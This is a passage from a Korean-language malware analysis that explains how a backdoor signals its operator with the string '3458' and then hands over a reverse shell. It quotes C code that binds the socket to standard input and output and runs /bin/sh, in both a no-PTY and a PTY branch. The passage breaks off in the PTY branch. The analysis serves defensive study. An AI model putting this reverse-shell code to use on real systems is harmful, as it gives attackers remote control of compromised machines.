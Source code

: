 4. **공격자에게 시작 신호 전송**

    ```c
    write(sock, "3458", 4);
    ```

    - 열린 소켓으로 `3458` 문자열을 전송한다.

5. **PTY를 생성 시도 후 reverse shell 제공**
    - open_tty 함수를 통해 PTY (Pseudo-Terminal) 생성을 시도하여, 생성했을 경우에는 **완전한 터미널 기능을 공격자에게 제공**하고, 생성하지 못했을 경우에는 **제한적인 터미널 기능을 공격자에게 제공한다.**
    - `open_tty` 수행
        - 함수 내부에서 PTY를 생성하는 시도를 하고, 생성 성공 여부에 따라 다른 동작을 하게 된다.
        - PTY 생성 성공 시에 `pty` 변수에는 **마스터**의 파일 디스크립터가 저장되고(`ptym_open` 함수에서 return), `tty` 변수에는 **슬레이브**의 파일 디스크립터가 저장된다.(`ptys_open` 함수에서 return)

    1. **PTY 생성 실패 시**

        ```c
        if (!open_tty()) {
            if (!fork()) {
                dup2(sock, 0);
                dup2(sock, 1);
                dup2(sock, 2);
                execve(sh, argvv, envp);
            }
            close(sock);
            return 0;
        }
        ```

        - 실패 시에 reverse shell 역할을 수행하게 될 자식 프로세스를 생성한다.(`fork()`)
        - 자식 프로세스는 `dup2()` 함수를 통해 자식 프로세스의 모든 입력(stdin, 파일 디스크립터 0번), 출력(stdout, 파일 디스크립터 1번), 에러(stderr, 파일 디스크립터 2번)를 소켓 통신으로 처리 지정한다.
        - `execve()` 함수를 통해 현재 실행 중인 자식 프로세스의 코드를 `/bin/sh` 쉘로 완전히 교체한다.
        - PTY 연결에 실패하였으므로, PTY 없이 단순히 소켓을 통해 쉘의 입출력을 직접 연결하게 되고, 이 시점부터 자식 프로세스는 더 이상 이후의 코드를 실행하지 않고, 시스템 쉘인 `/bin/sh`가 되어 공격자에게 reverse shell을 제공한다.
        - 부모 프로세스는 PTY를 생성하지 못했으므로, 소켓을 닫고(`close(sock)`), `return`하여 `packet_loop()` 함수로 돌아간다.

    2. **PTY 생성 성공 시**

    ```c
    subshell = fork();
    if (subshell == 0) {
        close(pty);
        ioctl(tty, TIOCSCTTY)
        close(sock);
        dup2(tty, 0);
        dup2(tty, 1);
        dup2(tty, 2);
        close(tty);
        execve(sh, argvv, envp);
    }
    close(tty);
    ```
